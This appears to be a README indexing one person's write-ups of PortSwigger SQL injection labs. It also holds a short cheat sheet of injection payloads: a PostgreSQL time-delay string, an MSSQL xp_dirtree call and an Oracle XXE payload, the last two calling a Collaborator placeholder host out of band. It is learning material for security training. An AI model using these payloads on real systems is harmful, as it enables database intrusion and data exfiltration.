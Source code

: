 # [SQL injection](https://portswigger.net/web-security/sql-injection)

## Lab

- apprentice:
  - [1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](./lab/1.%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data.md)
    - postgresql (based on time delay)
  - [2. SQL injection vulnerability allowing login bypass](./lab/2.%20SQL%20injection%20vulnerability%20allowing%20login%20bypass.md)
    - postgresql (based on time delay)
- practitioner:
  - [3. SQL injection UNION attack, determining the number of columns returned by the query](./lab/3.%20SQL%20injection%20UNION%20attack%2C%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query.md)
    - postgresql (based on time delay)
  - [4. SQL injection UNION attack, finding a column containing text](./lab/4.%20SQL%20injection%20UNION%20attack%2C%20finding%20a%20column%20containing%20text.md)
    - postgresql (based on time delay)
  - [5. SQL injection UNION attack, retrieving data from other tables](./lab/5.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20data%20from%20other%20tables.md)
    - postgresql (based on time delay)
  - [6. SQL injection UNION attack, retrieving multiple values in a single column](./lab/6.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20multiple%20values%20in%20a%20single%20column.md)
    - postgresql (based on time delay)
  - [7. SQL injection attack, querying the database type and version on Oracle](./lab/7.%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20Oracle.md)
    - oracle (require FROM dual)
  - [8. SQL injection attack, querying the database type and version on MySQL and Microsoft](./lab/8.%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft.md)
    - mssql (require space after double dash)
  - [9. SQL injection attack, listing the database contents on non-Oracle databases](./lab/9.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20non-Oracle%20databases.md)
    - postgresql (based on time delay)
  - [10. SQL injection attack, listing the database contents on Oracle](./lab/10.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20Oracle.md)
    - oracle (require FROM dual)
  - [11. Blind SQL injection with conditional responses](./lab/11.%20Blind%20SQL%20injection%20with%20conditional%20responses.md)
    - postgresql (based on time delay)
  - [12. Blind SQL injection with conditional errors](./lab/12.%20Blind%20SQL%20injection%20with%20conditional%20errors.md)
    - oracle
  - [13. Blind SQL injection with time delays](./lab/13.%20Blind%20SQL%20injection%20with%20time%20delays.md)
    - postgresql (based on time delay)
  - [14. Blind SQL injection with time delays and information retrieval](./lab/14.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval.md)
  - [15. Blind SQL injection with out-of-band interaction](./lab/15.%20Blind%20SQL%20injection%20with%20out-of-band%20interaction.md)
    - oracle (oob interaction)
  - [16. Blind SQL injection with out-of-band data exfiltration](./lab/16.%20Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration.md)
  - [17. SQL injection with filter bypass via XML encoding](./lab/17.%20SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding.md)

## Version detection

server synchronous (time delay):

- mssql:
- mysql:
- postgresql

  ```sql
  '||pg_sleep(10))--
  ```

- oracle:

  ```sql
  
  ```

server asynchronous (out of band):

- mssql (maybe)

  ```sql
  ';exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'-- 
  ```

- mysql
- postgresql

- oracle:

  ```sql
  'UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//collaborator/">+%25remote%3b]>'),'/l')+FROM+dual--;
  ```

## TODO

## References

[Union attack](https://portswigger.net/web-security/sql-injection/union-attacks)

[cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[examining the db](https://portswigger.net/web-security/sql-injection/examining-the-database)
